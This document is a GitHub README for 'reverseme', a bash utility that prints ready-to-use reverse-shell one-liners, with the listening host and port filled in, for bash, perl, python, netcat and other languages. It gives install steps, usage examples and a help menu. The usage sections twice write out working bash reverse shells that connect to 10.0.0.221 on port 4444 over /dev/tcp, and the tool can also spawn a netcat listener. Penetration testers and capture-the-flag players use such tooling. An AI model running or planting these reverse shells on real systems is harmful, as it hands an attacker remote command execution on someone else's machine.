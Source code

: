 # ReverseMe
Easily display reverse shells in different languages with the listening host and listening port already built into the syntax.

## Installation
By default, *reverseme* is set to install in your home directory. \
Using your favorite text editor, change the username for the USER variable. \
Also change the directory path for the DIRECTORY variable. **Use absolute path names. It just makes it easier.** \
*reverseme* uses \.bash_aliases to add the alais for *reverseme*. \
*reversme* will source the bash_completion file automatically to your \.bashrc file.

##### What if I want to use something different than .bashrc or .bash_aliases?
You will need to use your favorite text editor and edit the variables ALIAS_FILE and SOURCE_FILE. \
**Otherwise, leave them alone.**

##### What if I move *reverseme* after I run the install.sh script?
If at anytime you move *reverseme* after running install.sh, you will need to edit your \.bashrc, \.bash_aliases, and the absolute sourced path of *shells.sh* in *main.sh* file, using your favorite text editor.

#### To install:
```
git clone https://github.com/DFC302/reverseme.git
cd reverseme/
sudo bash install.sh
cd
source ~/.bashrc
```
**Right now, *reverseme's* *install.sh* script is set to work on Debian\Ubuntu related distbutions.**

## Usage
**Important Note:** \
The reverse shells are stored in a separate file wrapped in functions. Because of this, all other options must be called FIRST before you call the language option of your choice. Below are some simple example usages.

### Basic usage:
```
reverseme --lport 4444 --lhost 10.0.0.221 --langs bash
```

#### Result:
```
bash -i >& /dev/tcp/10.0.0.221/4444 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/10.0.0.221/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/10.0.0.221/4444 cat <&5 | while read line; do  2>&5 >&5; done
```

### Save shell to clipboard"
```
reverseme --lhost 10.0.0.221 --lport 4444 --save --langs bash
```

**If there is more than one reverse shell available, *reverseme* will ask you to select which one. Whatever option you choose will automatically be saved to your clipboard.**.

#### Result
```
bash -i >& /dev/tcp/10.0.0.221/4444 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/10.0.0.221/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/10.0.0.221/4444 cat <&5 | while read line; do  2>&5 >&5; done

Selection [1-4]: 2
```

### List supported languages
```
reverseme --list
```
#### Result:
```
Supported languages:
	bash
	awk
	perl
	python
	php
	ruby
	netcat
	telnet
	socat
	java
```
### Spawn listener
```
reverseme --lport 4444 --listener gnome
```
**--OR--**
```
reverseme --lhost 10.0.0.221 --lport 4444 [optional: --save] --listener gnome --langs bash
```
This will spawn a new terminal using netcat to listen on the given lport.

### Spawn version/email/title information
```
reverseme --version
```
#### Result:
```
	________                                    ______  ___     
	___  __ \_______   ____________________________   |/  /____ 
	__  /_/ /  _ \_ | / /  _ \_  ___/_  ___/  _ \_  /|_/ /_  _ \
	_  _, _//  __/_ |/ //  __/  /   _(__  )/  __/  /  / / /  __/
	/_/ |_| \___/_____/ \___//_/    /____/ \___//_/  /_/  \___/                                                               

	
		Written by: Matthew Greer
		Github: https://github.com/DFC302
		HTB Profile: https://www.hackthebox.eu/profile/17842
		Email: pydev302@gmail.com
		Version: 2.0.0


```


### Help Menu
```
reverseme - A quick reference script that can easily display reverse shells for different languages.
Version: 2.0.0

Usage: reverseme --[options]
Example usage: reverseme --lhost 10.0.0.2 --lport 4444 --langs perl linux
Warning: lport and lhost both needed FIRST to display reverse shells correctly!
	WRONG: reverseme --langs bash --lhost 10.0.0.2 --lport 4444
	CORRECT: reverseme --lhost 10.0.0.2 || lport 4444 --langs bash

--help			Displays this help menu and exits.
--version		Displays version and title information.
--list			List avaialble languages supported.
--save			Save reverse shell to clipboard.
--lport=[port]		Provide a listening port.
--lhost=[IP]		Provide a listening host.

--listener=[ENV]	Spawn a listener on a specfic lport.
				gnome
				xfce
				Example: --lport 4444 --listener gnome

--langs=[lang]	Language reverse shell is written in.
			bash
			awk
			perl [OPTIONAL] linux || windows
			python [PROTOCOL] tcp || udp || stcp
			php
			ruby [OPTIONAL] linux || windows
			netcat
			telnet
			socat
			java

```

### Common errors?
#### When I use the --save flag, I get an error: *error cant open display*.
This usually happens systems without a GUI. You can check out the following [help](https://askubuntu.com/questions/305654/xclip-on-headless-server) to see if you can find a solution.

#### *reverseme* tells me that I need the lhost and/or lport first, when I use the --langs flag before those flags.
This is because each language is stored in a function in anothr bash file. Essentially, main.sh is calling the function that holds the reverse shells of the language you have chosen. If you call that function first, the rest of the flags are not taken into account as variables. Use the *--langs [lang]* as the last part of your syntax.

#### I am getting a *permission denied* when running *reverseme*.
I have seen this before on some of the test systems I have tested *reverseme* on. The easiest solution is to do this:
```
chmod -R 755 /reverseme
chown -R [user] /reverseme
chgrp -R [user] /reverseme
```
#### I ran the *install.sh* script, but I still cant use *reverseme* as an alias?
Using your favorite editor, open the \.bash_aliases file in your home directory. Make sure that the path to *reverseme's* *main.sh* file is correct.

#### *reverseme* tells me that it has no file named *shells.sh*
Using your favorite editor, open the *main.sh* file in *reverseme* directory. Edit line 4, where it is sourcing the *shells.sh* file and make sure the path is correct.

**Anything else. Email me.**


### Contributing?
I would be interested in more reverse shells that I can add to *reverseme* \
Or if you find this useful or it is helped you in anyway, you can always say thanks by buying me a coffee.

<a href="https://www.buymeacoffee.com/dfc302" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
